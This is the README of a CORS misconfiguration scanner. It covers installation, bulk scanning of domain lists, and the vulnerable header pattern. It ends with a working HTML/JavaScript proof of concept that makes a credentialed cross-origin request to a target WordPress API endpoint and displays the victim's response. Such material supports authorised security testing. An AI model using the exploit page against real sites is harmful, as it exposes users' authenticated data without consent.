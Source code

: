 # CORS-Analyzer
## This tools is developed for identifying the vulnerable cors domain

![alt text](lib/banner/cors-analyzer.png)

### How to install CORS-Analyzer:
```
git clone https://github.com/hariharan005/CORS.git     
ls    
cd CORS
sudo pip3 install -r requirements.txt 
cd lib && chmod +x cors.py
sudo ln -s "$(pwd)/cors.py" /usr/local/bin/cors-analyzer 
cors-analyzer
```
Now type "cors-analyzer" to access the CORS analyzer tool from anywhere

### How to install using pip:

```
For first time installation use the following command,
    pip install cors-analyzer

If you want to install the latest version of CORS-Analyzer just uninstall the old version using the following command,
    pip uninstall cors-analyzer
    pip install --upgrade cors-analyzer

For upgrade, use the following command,
    pip install --upgrade cors-analyzer
    
For ignore the cache, use the following command,
    pip install --ignore-cache cors-analyzer
```
### Python Version:
* Python 3 (3.x.x) latest version

### How to Use CORS-Finder:

```
For scanning:
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py                           
For scanning with output:  
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py | tee -a <output.txt>
```

### When its vulnerable:
If the header returns the 
       Access-Control-Allow-Origin: https://vulnerable.com/
       Access-Control-Allow-Credentials: true
       its vulnerable

Note: Not all the time its seems vulnerable, you have to check with cors payload and in the authenticated manner also. Try to exploit and this tool is only for indentifying the vulnerable domain

Note: In this tool i used sample domain file but you have to choose your own url file which you recon using some other recon tool.


### Exploitation examples:

Here is the Example code for exploiting the CORS misconfiguration:

Goto this line and replace the URL xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);

```
<!DOCTYPE html>
<html>
    <title>Cors POC</title>
    <style>
        body{
            background-color: white;
            justify-content: center;
        }
        button{
            justify-content: center;
            align-items: center;
            color: white;
            border-radius: 8px;
            font-size: 18px;
            background-color: #6437A0;
            position: relative;
            width: 10%;
            height: 50px;
            display: grid;
        }
    </style>
     <body>
         <h1>CORS PoC by @crypto_grapper_</h1><span><h2>Hariharan.C</h2></span>
         <div id="demo">
                <button type="button" onclick="cors()" >Wp-json Exploit</button>
            </div>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
             xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);
             xhr.withCredentials = true;
             xhr.send();
             }
             setTimeout(() => {
                document.location.reload("#");
             }, 5000);
         </script>
     </body>
 </html>
```